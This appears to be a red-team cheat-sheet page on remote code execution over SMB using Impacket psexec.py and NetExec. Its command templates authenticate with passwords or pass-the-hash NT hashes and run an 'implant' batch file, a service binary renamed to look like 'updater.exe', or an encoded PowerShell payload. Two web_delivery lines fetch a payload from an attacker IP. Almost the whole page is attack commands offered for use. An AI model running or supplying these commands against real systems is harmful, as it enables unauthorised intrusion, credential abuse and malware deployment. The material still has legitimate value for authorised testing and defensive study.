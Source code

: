 # Manual

## 01 - Impacket

Execute `.bat` files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -c implant.bat

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -c implant.bat
```

Execute custom `.exe` service files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -file implant.exe -c implant.exe -service-name <ServiceSVC> -remote-binary-name updater.exe

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -file implant.exe -c implant.exe -service-name <ServiceSVC> -remote-binary-name updater.exe
```

## 02 - NetExec

Authenticate via username and password

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Authenticate via Pass The Hash

```
$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xD - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|Metasploit Web Delivery]] module.

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]
```

---
## References

- [Hacking Articles: Windows Exploitation Regsvr32](https://www.hackingarticles.in/windows-exploitation-regsvr32/)

- [Cross Platform Dropper](https://khast3x.club/posts/2020-06-27-Cross-Platform-Dropper/)